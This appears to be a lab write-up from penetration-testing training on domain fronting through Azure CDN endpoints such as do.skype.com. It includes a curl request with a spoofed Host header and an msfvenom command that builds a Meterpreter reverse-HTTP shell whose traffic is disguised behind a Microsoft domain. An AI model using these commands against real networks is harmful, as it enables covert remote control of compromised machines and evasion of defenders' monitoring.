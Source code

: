 ```
Azure Frontable domain found: s4w.cdn.skype.com az663213.vo.msecnd.net.
Azure Frontable domain found: sdk.cdn.skype.com az805177.vo.msecnd.net.
Azure Frontable domain found: do.skype.com skype-do.azureedge.net.
Azure Frontable domain found: do.skype.com skype-do.ec.azureedge.net.
Search complete!
```

Looking at `do.skype.com`:
```bash
kali@kali:~$ curl --header "Host: offensive security.azureedge.net" http://do.skype.com
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /</title>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
</ul>
<hr>
</body>
</html>
```

We see it produces more output, if we use wireshark and perform the curl command again:
![[Pasted image 20230618194232.png]]

This reveals that do.skype.com is a CNAME record. After several requests, the server returns the 152.199.19.161 IP address.

We can see our HTTP web server:
![[Pasted image 20230618194349.png]]

We see the Host header being set to offensive-security.azureedge.net, which routes the traffic to our CDN, ultimately fetching the contents from our webserver at meterpreter.info. This confirms that our domain fronting works with HTTP. The problem with this is that a proxy can still see this traffic as it is unencrypted.

Let's try using HTTPS:
![[Pasted image 20230618194630.png]]

Wireshark reveals encrypted HTTPS traffic to the same IP as our previous test.

The certificate in the TLS key exchange is Microsoft’s certificate. We can verify this by selecting the Certificate, Server Key Exchange, Server Hello Done packet, and inspecting its details:
![[Pasted image 20230618194700.png]]

The last item we need to test is that our reverse shell is working properly. We’ll use HTTP so we can inspect the traffic contents, allowing us to verify that the connection is being set up as intended.

First, we’ll create a reverse shell payload. The only extra field we need to set is the HttpHostHeader, which will set the Host header in HTTP.
```bash
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_http LHOST=do.skype.com LPORT=80 HttpHostHeader=offensive-security.azureedge.net -f exe > http-df.exe
```
